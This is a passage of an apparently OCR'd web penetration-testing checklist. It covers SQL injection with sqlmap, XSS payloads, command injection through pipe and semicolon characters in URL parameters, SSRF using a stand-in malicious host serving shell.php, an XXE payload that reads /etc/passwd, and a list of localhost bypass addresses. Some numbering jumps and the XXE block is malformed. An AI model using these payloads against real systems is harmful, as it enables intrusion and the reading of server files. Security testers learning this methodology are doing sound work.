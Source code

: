 6.4. You can run a SQL injection scanner on all requests, simply copy any HTTP request that has parameters and add to a text file and run `sqlmap.py -r Desktop/request.txt` this is a simple test, you can check all `sqlmap` flags such as `--dbs`, `--T`, `--risk`..etc.

6.5. You can more automated tools such as `sqlninja`, `sqldumper` and `sql power injector`.

6.6. Perform Union Query SQL injection testing and Time delays.

6.7. Analyze each input vector to detect potential XSS vulnerabilities.

6.8. For XSS, try to identify any parameters that is reflected on the page so if output is reflected back inside the JavaScript as a value of any variable just check for reflected XSS, you can start insert basic XSS payload such as `'><script>alert(123);</script>` and check the HTTP response, try to check what tags are being filtered so you can try bypass this by using different payloads, try to do some basic encoding `%3cscript%3ealert(document.cookie)%3c/script%3e`.

6.9. Upload a JavaScript using Image file.

6.10. Unusual way to execute your JS payload is to change method from POST to GET, it bypasses filters sometimes

6.11. Check for Stored XSS, if you found any input that is being saved on the server and its reflected on the page, try to add XSS payload and save it to the application, such as add a comment, if you found that the date i being saved to the application and its not reflected on the application, you can try Blind-XSS.

6.12. Look for command injection, when viewing a file in a web application, the filename is often shown in the URL. Perl allows piping data from a process into an open statement, the user can simply append the Pipe symbol `|` onto the end of the filename, for example `http:/target.com/userData.pl?doc=/bin/ls|`. Also appending a semicolon to the end of a URL for a `.PHP` page followed by an operating system command, will execute the command. `http://target.com/something.php?dir=%3Bcat%20/etc/passwd`

3.13. If you found a `POST` request contains parameters that retriving a file, simply you can inject a command injection for example `Doc=Doc1.pdf` > `Doc=Doc1.pdf+|+Dir c:\`.

3.14. The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`.

3.15. Look for `SSRF`, when testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious, so if you found a parameter calling for a page file, for example `GET https://target.com/page?page=https://malicioussite.com/shell.php`, or you can access local restricted page `GET https://target.com/page?page=page=http://localhost/admin` or `https://target.com/page?page=page=http://127.0.0.1/admin`.

* Change the content type to `text/xml` then insert below code. Check via burpsuite repeater:
```
<?xml version="1.0" encoding="ISO 8859 1"?>
<!DOCTYPE tushar [
<!ELEMENT tushar ANY
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///etc/hosts" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///proc/self/cmdline" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///proc/version" >]><tushar>&xxe;</
```

```
Another SSRF List:
http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/
http://0000::1:22/
http://0000::1:3128/
http://127.0.1.3
http://127.0.0.0
http://0177.0.0.1/
http://2130706433/
```